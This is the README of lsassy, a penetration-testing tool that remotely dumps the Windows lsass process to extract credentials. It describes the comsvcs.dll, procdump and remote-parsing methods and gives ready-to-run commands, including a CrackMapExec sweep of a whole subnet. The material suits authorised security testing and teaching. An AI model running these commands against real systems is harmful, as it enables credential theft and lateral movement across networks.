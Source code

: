 # lsassy

[![PyPI version](https://d25lcipzij17d.cloudfront.net/badge.svg?id=py&type=6&v=1.0.0&x2=0)](https://pypi.org/project/lsassy/) [![Twitter](https://img.shields.io/twitter/follow/hackanddo?label=HackAndDo&style=social)](https://twitter.com/intent/follow?screen_name=hackanddo)

![CME Module example](/assets/example.png)

Python library to remotely extract credentials.
This library uses [impacket](https://github.com/SecureAuthCorp/impacket) projects to remotely read necessary bytes in lsass dump and [pypykatz](https://github.com/skelsec/pypykatz) to extract credentials.

| Chapters                                     | Description                                             |
|----------------------------------------------|---------------------------------------------------------|
| [Requirements](#requirements)                | Requirements to install lsassy from source              |
| [Basic Usage](#basic-usage)                  | Command line template for standalone version            |
| [Advanced Usage](#advanced)                  | Advanced usage (Dumping methods, execution methods, ...)|
| [CrackMapExec Module](#crackmapexec-module)  | Link to CrackMapExec module included in this repository |
| [Examples](#examples)                        | Command line examples for standalone and CME module     |
| [Installation](#installation)                | Installation commands from pip or from source           |
| [Issues](#issues)                            | Read this before creating an issue                      |
| [Acknowledgments](#acknowledgments)          | Kudos to these people and tools                         |

## Requirements

* Python >= 3.6
* [pypykatz](https://github.com/skelsec/pypykatz) >= 0.3.0
* [impacket](https://github.com/SecureAuthCorp/impacket)

## Basic Usage

```
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target>
```

## Advanced

This tool can dump lsass in different ways.

### comsvcs.dll method (Default)

This method **only uses built-in Windows files** to extract remote credentials. It uses **minidump**
function from **comsvcs.dll** to dump **lsass** process. As this can only be done as **SYSTEM**, it creates a remote
task as **SYSTEM**, runs it and then deletes it.

```
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target>
```

### Procdump method

This method uploads **procdump.exe** from SysInternals to dump **lsass** process. It will first try to execute
procdump using WMI, and if it fails it will create a remote task, execute it and delete it.

```
lsassy [--hashes [LM:]NT] -p /path/to/procdump.exe [<domain>/]<user>[:<password>]@<target>
```

### Remote parsing only

lsassy can parse an already dumped lsass process.

```
lsassy [--hashes [LM:]NT] --dumppath /share/path/to/dump.dmp [<domain>/]<user>[:<password>]@<target>
```

## CrackMapExec module

I wrote a CrackMapExec module that uses **lsassy** to extract credentials on compromised hosts

CrackMapExec module is in `cme` folder : [CME Module](/cme/)

## Examples

### lsassy

```bash
# RunDLL Method
lsassy adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Procdump Method
lsassy -p /tmp/procdump.exe adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Remote parsing only
lsassy --dumppath C$/Windows/Temp/lsass.dmp adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# NT Hash Authentication
lsassy --hashes 952c28bd2fd728898411b301475009b7 Administrator@desktop01.adsec.local
```

### CME Module

```
crackmapexec smb 10.0.0.0/24 -d adsec.local -u Administrator -p Passw0rd -M lsassy -o BLOODHOUND=True NEO4JPASS=bloodhound```
```

## Installation

### From pip

```
python3.7 -m pip install lsassy
```

### From sources

```
python3.7 setup.py install
```

### ChangeLog

```
v1.0.0
------
* Built-in lsass dump
** Lsass dump using built-in Windows
** Lsass dump using procdump (using -p parameter)
* Add --dumppath to ask for remote parsing only
* Code refactoring
* Add --quiet to quiet output

v0.2.0
------
* Add BloodHound option to CME module (-o BLOODHOUND=True)
    - Set compromised targets as "owned" in BloodHound
    - Check if compromised users have at least one path to domain admin
* Custom parsing (json, grep, pretty [default])
* New --hashes option to lsassy
* Include CME module in repository
* Add credentials to CME database


v0.1.0
------
First release
```

## Issues

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

## Acknowledgments

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [SkelSec](http://twitter.com/skelsec) for Pypykatz, but also for his patience and help
* [mpgn](https://twitter.com/mpgn_x64) for his help and ideas
